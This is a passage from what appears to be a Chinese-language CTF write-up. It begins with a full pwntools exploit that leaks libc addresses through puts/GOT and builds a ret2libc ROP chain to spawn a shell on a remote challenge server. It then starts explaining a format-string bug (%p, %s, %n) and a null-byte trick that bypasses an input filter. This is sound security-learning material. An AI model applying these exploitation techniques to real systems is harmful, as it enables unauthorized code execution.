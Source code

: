 完整代码如下所示：
```python
from pwn import *
context (os='linux', arch='amd64', log_level='debug')
io=remote('124.16.75.162',31048)
#io=process('./vuln')
elf=ELF('./vuln')
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
system_got=elf.got['system']
io.recvuntil(b"Servant\n")
io.sendline(b"114514")
io.recvuntil(b"Servant\n")
io.sendline(b"2")
io.recvuntil(b"STARTTTTTTT!\n")
game=[b'2',b'3',b'3',b'3',b'2',b'3',b'3',b'3',b'2',b'3',b'3',b'2',b'1',b'1',b'2',b'3',b'3',b'3',b'2',b'3',b'3',b'2',b'3',b'3',b'2',b'3',b'3',b'3',b'2',b'3',b'3',b'2',b'3',b'3',b'2',b'3']  #babydragon攻略
for i in game:
    io.sendline(i)
    io.recv()
rdi_addr=0x4018c3
win_addr=0x401291
io.sendline(b"a"*120+p64(rdi_addr)+p64(0x404018)+p64(puts_plt)+p64(win_addr))
puts_real_addr=u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
print(hex(puts_real_addr))
io.sendline(b"a"*120+p64(rdi_addr)+p64(system_got)+p64(puts_plt)+p64(win_addr))
system_real_addr=u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(system_real_addr)) 
puts_libc_addr=0x84420  #根据泄露的system函数与puts函数真实地址查库后确定
sh_libc_addr=0x1b45bd
system_libc_addr=0x52290
sh_real_addr=sh_libc_addr+(puts_real_addr-puts_libc_addr)
ret_addr=0x000000000040101a
io.sendline(b"a"*120+p64(rdi_addr)+p64(sh_real_addr)+p64(ret_addr)+p64(system_real_addr)) #如果是直接调用text段里面的call system，不需要p64(ret_addr)，如果是调用system函数真实地址，需要p64(ret_addr)。
io.interactive()
```
#### your_own_flag
一道典型的格式化字符串漏洞题，漏洞点在于`io`函数中的`printf(format)`。因为没有格式化参数，因此某种程度上可以完成任意地址的读与写。

在这里先介绍几个可能会用到的参数：
```
%p:泄露栈上地址值
%s:泄露栈上地址(如果这个地址真的存在)指向的内容
%n:不会输出什么东西，但是会将当前已经输出的字节数作为一个整型写到指定地址。
```
但是这道题有意思的地方在于，它将用户的输入做了一些小替换(change_str函数)：
大写字母全部按下表替换：
`'4BcDEFGHIJKLMNOPQRSTVUWXYZ'`
小写字母按下表替换：
`'@6Cdefgh1jk1mn0p9rstuvw*y2'`
数字按下表替换：
`'OiZ3A5b78q'`
但是其实这个替换可以用`\x00`也就是截断符绕过，strlen函数读到`\x00`就不读了，但是fgets会继续读取，因此我们只需要在payload最前加一个`\x00`就可以规避掉change_str函数的变换了(但是很遗憾，笔者没学过C语言，所以编了一个逆变换的函数用来做这道题，到最后一步才发现可以这样绕，后面会看到)。
